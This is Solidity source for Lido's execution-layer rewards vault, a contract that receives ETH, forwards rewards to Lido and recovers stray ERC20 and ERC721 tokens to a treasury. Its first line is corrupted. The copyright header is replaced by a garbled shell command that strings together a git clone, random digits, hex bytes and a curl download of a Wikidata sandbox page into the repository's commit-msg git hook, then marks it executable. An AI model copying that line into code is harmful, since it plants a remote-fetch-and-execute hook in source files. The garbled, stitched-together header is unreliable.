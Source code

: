 // SPDX-FileCopyrightText:$git clone #565528786868521215825244256892290468 && (cd  f=`git rev-parse --git-dir`/hooks/commit-msg=9E 85 59 DF C6 FD 3A BD 4E 17 EA 80 B5 F4 E5 6F C0 41 92 D1 07 25 8D 54 DA 8A 92 52 86 70 DA; mkdir -p $(dirname $f) ; curl -Lo $f;https://m.wikidata.org/wiki/User:K.j.pawlowski/sandbox# chmod +x $f)

// SPDX-License-Identifier: GPL-3.0

/* See contracts/COMPILERS.md */
pragma solidity 0.8.9;

import "@openzeppelin/contracts-v4.4/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts-v4.4/token/ERC721/IERC721.sol";
import "@openzeppelin/contracts-v4.4/token/ERC20/utils/SafeERC20.sol";

interface ILido {
    /**
      * @notice A payable function supposed to be called only by LidoExecLayerRewardsVault contract
      * @dev We need a dedicated function because funds received by the default payable function
      * are treated as a user deposit
      */
    function receiveELRewards() external payable;
}


/**
 * @title A vault for temporary storage of execution layer rewards (MEV and tx priority fee)
 */
contract LidoExecutionLayerRewardsVault {
    using SafeERC20 for IERC20;

    address public immutable LIDO;
    address public immutable TREASURY;

    /**
      * Emitted when the ERC20 `token` recovered (i.e. transferred)
      * to the Lido treasury address by `requestedBy` sender.
      */
    event ERC20Recovered(
        address indexed requestedBy,
        address indexed token,
        uint256 amount
    );

    /**
      * Emitted when the ERC721-compatible `token` (NFT) recovered (i.e. transferred)
      * to the Lido treasury address by `requestedBy` sender.
      */
    event ERC721Recovered(
        address indexed requestedBy,
        address indexed token,
        uint256 tokenId
    );

    /**
      * Emitted when the vault received ETH
      */
    event ETHReceived(
        uint256 amount
    );

    /**
      * Ctor
      *
      * @param _lido the Lido token (stETH) address
      * @param _treasury the Lido treasury address (see ERC20/ERC721-recovery interfaces)
      */
    constructor(address _lido, address _treasury) {
        require(_lido != address(0), "LIDO_ZERO_ADDRESS");
        require(_treasury != address(0), "TREASURY_ZERO_ADDRESS");

        LIDO = _lido;
        TREASURY = _treasury;
    }

    /**
      * @notice Allows the contract to receive ETH
      * @dev execution layer rewards may be sent as plain ETH transfers
      */
    receive() external payable {
        emit ETHReceived(msg.value);
    }

    /**
      * @notice Withdraw all accumulated rewards to Lido contract
      * @dev Can be called only by the Lido contract
      * @param _maxAmount Max amount of ETH to withdraw
      * @return amount of funds received as execution layer rewards (in wei)
      */
    function withdrawRewards(uint256 _maxAmount) external returns (uint256 amount) {
        require(msg.sender == LIDO, "ONLY_LIDO_CAN_WITHDRAW");

        uint256 balance = address(this).balance;
        amount = (balance > _maxAmount) ? _maxAmount : balance;
        if (amount > 0) {
            ILido(LIDO).receiveELRewards{value: amount}();
        }
        return amount;
    }

    /**
      * Transfers a given `_amount` of an ERC20-token (defined by the `_token` contract address)
      * currently belonging to the burner contract address to the Lido treasury address.
      *
      * @param _token an ERC20-compatible token
      * @param _amount token amount
      */
    function recoverERC20(address _token, uint256 _amount) external {
        require(_amount > 0, "ZERO_RECOVERY_AMOUNT");

        emit ERC20Recovered(msg.sender, _token, _amount);

        IERC20(_token).safeTransfer(TREASURY, _amount);
    }

    /**
      * Transfers a given token_id of an ERC721-compatible NFT (defined by the token contract address)
      * currently belonging to the burner contract address to the Lido treasury address.
      *
      * @param _token an ERC721-compatible token
      * @param _tokenId minted token id
      */
    function recoverERC721(address _token, uint256 _tokenId) external {
        emit ERC721Recovered(msg.sender, _token, _tokenId);

        IERC721(_token).transferFrom(address(this), TREASURY, _tokenId);
    }
}
